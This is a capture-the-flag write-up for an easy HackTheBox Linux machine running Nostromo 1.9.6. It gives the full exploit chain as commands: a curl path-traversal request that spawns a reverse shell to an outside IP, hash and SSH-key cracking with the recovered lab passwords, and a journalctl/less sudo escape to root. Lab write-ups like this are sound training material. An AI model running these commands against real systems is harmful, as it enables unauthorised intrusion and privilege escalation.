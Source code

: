## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
**Tags:** `nostromo`, `webshell`, `sudo journalctl`, `ssh key`, `GTFObins`

---

## 📡 Recon

### Full TCP Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.165
```

### Script & Version Scan

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.165
```

- **Ports:** 22 (OpenSSH 7.9p1), 80 (Nostromo 1.9.6)
- **Likely OS:** Debian Buster

---

## 🌐 [Web Enumeration](HTTP)

### Web Content

- Default page for **web designer**
- Server: `nostromo 1.9.6` (from HTTP headers)

### Vulnerability Search

```bash
searchsploit nostromo
```

✅ Metasploit RCE found for Nostromo 1.9.6

---

## 🐚 Shell as www-data

### Manual Exploit via Curl

```bash
curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' \
-d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```

### Listener

```bash
nc -lvnp 443
```

✅ Reverse shell as `www-data`

---

## 👤 Priv Esc: www-data → david

### Found htpasswd file

```bash
cat /var/nostromo/conf/.htpasswd
# david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### Crack with Hashcat

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt --username
# Password: Nowonly4me
```

### Found Homedirs Setting

```bash
cat /var/nostromo/conf/nhttpd.conf
# homedirs /home
# homedirs_public public_www
```

Check:

```bash
ls /home/david/public_www/protected-file-area/
```

✅ Found: `backup-ssh-identity-files.tgz`

### Download via HTTP Auth

```bash
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
tar -xzf backup-ssh-identity-files.tgz
```

Contains: Encrypted SSH key for david

### Crack [SSH](SSH) Key

```bash
/opt/john/run/ssh2john.py id_rsa > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
# Passphrase: hunter

# Save decrypted key:
openssl rsa -in id_rsa -out id_rsa_david
```

### SSH in as david

```bash
ssh -i id_rsa_david david@10.10.10.165
```

📄 `cat user.txt`

---

## 🔓 Priv Esc: david → root

### Found sudo usage in script

```bash
cat ~/bin/server-stats.sh
# Calls: sudo /usr/bin/journalctl -n5 -unostromo.service
```

### Exploit with GTFObins

- **Shrink terminal window**
- Run:

```bash
sudo /usr/bin/journalctl -n5 -unostromo.service
```

- While in less:
```bash
!/bin/bash
```

✅ Root shell!

📄 `cat /root/root.txt`
